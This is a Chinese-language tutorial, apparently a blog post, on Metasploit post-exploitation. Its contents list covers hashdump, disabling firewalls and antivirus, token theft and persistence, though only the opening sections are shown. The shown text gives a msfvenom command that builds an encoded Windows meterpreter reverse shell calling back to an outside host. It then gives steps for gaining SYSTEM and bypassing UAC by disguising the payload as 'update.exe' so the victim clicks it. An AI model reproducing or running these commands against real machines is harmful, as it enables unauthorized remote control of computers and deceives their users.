 msf后渗透

### 文章目录
<ul><ul><ul>- [前提与概览](#_2)- [获取system权限](#system_13)- [hashdump](#hashdump_84)- [关闭防火墙](#_123)- [磁盘加密](#_147)- [关闭DEP](#DEP_161)- [杀死防病毒软件](#_168)- [开启远程桌面服务](#_179)<ul>- [使用post模块](#post_181)- [使用已存脚本](#_198)- [有关域](#_222)- [Token利用](#Token_229)- [域环境搭建](#_241)- [利用ms_08_067获取win xp的系统权限](#ms_08_067win_xp_284)- [获取域Token](#Token_286)- [添加一条防火墙策略](#_362)- [metsvc](#metsvc_570)- [persistence](#persistence_588)
#### <a id="_2"/>前提与概览

<img src="https://img-blog.csdnimg.cn/20200719095831148.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/><br/>
首先构造一个payload

```
 msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -f exe -o 1.exe

```

已经找到一台机器执行了我的payload<br/>
<img src="https://img-blog.csdnimg.cn/20200719114021192.png" alt=""/>

进一步获取更高的权限。

#### <a id="system_13"/>获取system权限

```
load priv
getsystems

```

执行出现超时<br/>
先返回msf，保留session

```
background

```

**绕过UAC限制**

1.可以使用如下模块

```
use exploit/windows/local/ask 

```

看一下需要配置项<br/>
<img src="https://img-blog.csdnimg.cn/20200719115201281.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/><br/>
这个模块需要基于已有的session，然后进一步请求客户端执行我们的shell。

设置名称以欺骗客户端执行

```
set filename update.exe //一般会看到更新后点击确认
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.8
set session 3 

```
